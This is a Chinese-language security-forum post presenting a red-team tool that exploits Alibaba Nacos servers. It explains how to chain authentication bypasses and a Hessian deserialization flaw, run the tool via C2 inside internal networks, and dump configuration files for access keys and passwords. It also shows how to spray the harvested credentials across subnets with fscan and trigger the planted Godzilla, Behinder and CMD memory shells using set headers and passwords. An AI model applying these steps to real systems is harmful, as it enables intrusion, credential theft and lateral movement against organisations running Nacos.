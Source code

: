 

# Nacos 红队快速利用工具 - 先知社区

Nacos 红队快速利用工具

- - -

# HKEcho Nacos 快速利用工具 v0.1

**原创投稿作者：HKEcho@深蓝实验室天玄攻防战队**

注意：工具仅供学习使用，请勿滥用，否则后果自负！

```bash
~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
```

工具文件夹中 HKEcho\_Nacos.exe，nacosleak.exe 均已通过 upx 压缩加壳减小体积。

## 原理

本工具支持检测以下漏洞：

```bash
0、未授权查看用户列表

以下漏洞顺序执行直到获取到一个账号：
1、检测 nacos 默认口令
2、任意用户添加
3、任意用户添加 UA_Bypass
4、任意用户添加末尾斜杠绕过
5、默认 JWT 任意用户添加
6、JWT_Secret_Key 硬编码绕过
7、Identity 硬编码绕过
8、QVD-2023-6271 身份认证绕过
一旦某个漏洞获取账号密码后，会调用 a1phaboy 师傅写的 nacosleak 读取配置文件

9、Nacos_Jraft_Hessian 反序列化漏洞
程序会调用 c0olw 师傅写的 NacosRce 打一遍 Jraft_Hessian 反序列化漏洞（本工具在调用这个 NacosRce 工具前会判断 Java 环境，若不存在，则告警不执行）
```

## 安装

```bash
pip install -r requirements.txt
```

## 食用

```bash
HKEcho_Nacos>python HKEcho_Nacos.py -h
* * * * * * * * * * * * * * * * * * * * * * * *
        ~~||HKEcho Nacos 快速利用工具||~~
                【*】Author：HKEcho

<*哥斯拉内存马*>
密码:pass/key
设置请求头:x-client-data:godzilla;
设置 Referer:https://www.google.com/
* * * * * * * * * * * * * * * * * * * * * * * *
usage: HKEcho_Nacos.py [-h] [-u URL] [-f FILENAME]

optional arguments:
  -h, --help   show this help message and exit
  -u URL       要检查漏洞的单个 URL:http://127.0.0.1:8848
  -f FILENAME  批量检测，包含 URL 的文本文件
```

**1、单个目标检测：**

```bash
python HKEcho_Nacos.py -u http://192.2xx.2xx.1x:8848
```

[![](assets/1702521043-c95b755b87ca6e63aa96e7578e178f75.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164155-7a254a50-94dc-1.png)

**2、批量目标检测**：

新建 txt 文件，一行放一个 Nacos 的 URL

```bash
python HKEcho_Nacos.py -f target.txt
```

[![](assets/1702521043-19afda1a11c6338ad298249068e53408.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164217-86e85886-94dc-1.png)

**3、特殊场景下使用**

注意：HKEcho\_Nacos.exe 命令行界面在 win11 下图形加载正常，其余系统可能存在显示问题，不影响程序使用

上传 python 打包的 HKEcho\_Nacos.exe 到 C2 上使用，注意，单纯上传 HKEcho\_Nacos.exe 运行，会对内网目标 nacos 添加一个账号，不会对目标进行配置文件导出和检测 Nacos\_Jraft\_Hessian 反序列化漏洞。若想导出配置文件，可单独上传 nacosleak.exe 进行读取。

[![](assets/1702521043-71a2099c2330b0778b8e3d83a70f5ec5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164232-902cc9d6-94dc-1.png)

[![](assets/1702521043-929e88ae1c0ffd91edea61e061bb8835.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164250-9ace67a0-94dc-1.png)

或者如下图直接将 HKEcho\_Nacos.exe 与 nacosleak.exe 通过 C2 上传到目标服务器上同一目录下，直接执行 HKEcho\_Nacos.exe 会自动调用 nacosleak.exe

[![](assets/1702521043-bc03743c8bed7e259f95489c4246282c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164303-a29ddc72-94dc-1.png)

同理，若想检测检测 Nacos\_Jraft\_Hessian 反序列化漏洞，同理可以将 NacosRce 压缩后上传到目标服务器上同一目录下，不过不建议这样，NacosRce 太大了。

[![](assets/1702521043-e01f766633ecb8b124bb15d31f836ec8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164319-ac4993ec-94dc-1.png)

## Nacos 后利用

### Nacos 配置文件

上述利用完成后，会在/results/ip\_port/public 目录下生成目标站点的配置文件，a1phaboy 师傅特别将 ak/sk,password 关键字提取了出来：

[![](assets/1702521043-c4d51519b05b3cdb47e238d2487f244f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164337-b6989cb2-94dc-1.png)

我们可以在内网可以通过该密码本快速爆破，比如利用 fscan 等工具

```bash
fscan.exe -h 192.168.1.1/24 -o 192.168.1.txt -pwda 收集到的新密码 -usera 收集到的新用户
```

### Nacos Hessian 反序列化漏洞

这个漏洞在项目中其实遇到的不是很多。

一、冰蝎内存马：

```bash
1、需要设置请求头 x-client-data:rebeyond
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码 rebeyond
```

二、哥斯拉内存马：

```bash
1、需要设置请求头 x-client-data:godzilla
2、设置 Referer:https://www.google.com/
3、路径随意
4、密码是 pass 和 key
```

三、CMD 内存马：

```bash
1、需要设置请求头 x-client-data:cmd
2、设置 Referer:https://www.google.com/
3、请求头 cmd:要执行的命令
```

#### **后渗透**

后渗透利用 pap1rman 师傅的哥斯拉 nacos 后渗透插件-postnacos

MakeToken

[![](assets/1702521043-c1b389c1b9acae8fbb84ac345467e02a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164359-c3c9fc78-94dc-1.png)

将生成后的 token 保存进浏览器 cookie 格式 token:{xxx}

[![](assets/1702521043-05613e12b8bf6b10e7536eea1a500b65.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164425-d32a9ab0-94dc-1.png)

**Adduser**

[![](assets/1702521043-69c38a02b156d75f41ea5e1b42daebf6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164446-dfe7c7fa-94dc-1.png)

添加一个账号后，用 nacosleak 单独把配置文件读取下来。

```bash
nacosleak.exe -t http://192.2xx.2xx.21:8848 -u audit2 -p Password123!
```

## 测试环境

在 github 下载有漏洞的版本  
[https://github.com/alibaba/nacos/releases](https://github.com/alibaba/nacos/releases)

[![](assets/1702521043-b114f1dfba130597a51ebc05192e6389.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164511-eea9f470-94dc-1.png)

[![](assets/1702521043-45dcb4bda52dc2c2c53428ed1b3db242.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231207164529-f9a95906-94dc-1.png)

## 参考链接

致谢：  
[https://github.com/Pizz33/nacos\_vul](https://github.com/Pizz33/nacos_vul)  
[https://github.com/c0olw/NacosRce](https://github.com/c0olw/NacosRce)  
[https://github.com/pap1rman/postnacos](https://github.com/pap1rman/postnacos)

## 项目地址

[https://github.com/HKEcho5213/HKEcho\_Nacos.git](https://github.com/HKEcho5213/HKEcho_Nacos.git)
